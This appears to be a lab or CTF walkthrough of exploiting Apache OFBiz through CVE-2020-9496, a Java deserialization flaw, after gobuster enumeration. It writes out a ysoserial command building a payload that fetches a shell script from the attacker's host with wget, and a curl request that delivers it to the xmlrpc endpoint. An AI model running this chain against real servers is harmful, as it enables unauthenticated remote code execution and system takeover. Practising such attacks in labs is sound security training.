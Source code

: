 Let's enumerate with gobuster
`gobuster dir -u https://localhost:8443/ -w /usr/share/wordlists/dirb/common.txt -k -r`

We find these directories

![Pasted image 20210717182254.png](/assets/Pasted%20image%2020210717182254.png)

They all redirect to a login page

![Pasted image 20210717182316.png](/assets/Pasted%20image%2020210717182316.png)

Let's see if there is a vulnerability in Apache OFBiz.

We find a RCE caused by Java deserialization of untrusted data
> The unsafe deserialization could be exploited to execute code remotely, essentially allowing an unauthenticated attacker to successfully take over Apache OFBiz.

We find a metasploit module for it. But I don't want to use metasploit, so I tried another way, and I found this PoC of the [CVE-2020-9496](https://github.com/g33xter/CVE-2020-9496).
> This vulnerability exists due to Java serialization issues when processing requests sent to /webtools/control/xmlrpc. A remote unauthenticated attacker can exploit this vulnerability by sending a crafted request. Successful exploitation would result in arbitrary code execution.

Follow the steps of the PoC.

For Step 4, make sure to put http in the URL of your machine
```
java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "wget http://{YOUR_IP}/shell.sh -O /tmp/shell.sh" | base64 | tr -d "\n"
```


For Step6, here is the command, replace the {BASE64_OUTPUT} with the output you got from the previous step
```bash
curl https://127.0.0.1:8443/webtools/control/xmlrpc -X POST -v -d '<?xml version="1.0"?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">{BASE64_OUTPUT}</serializable></value></member></struct></value></param></params></methodCall>' -k  -H 'Content-Type:application/xml'
```
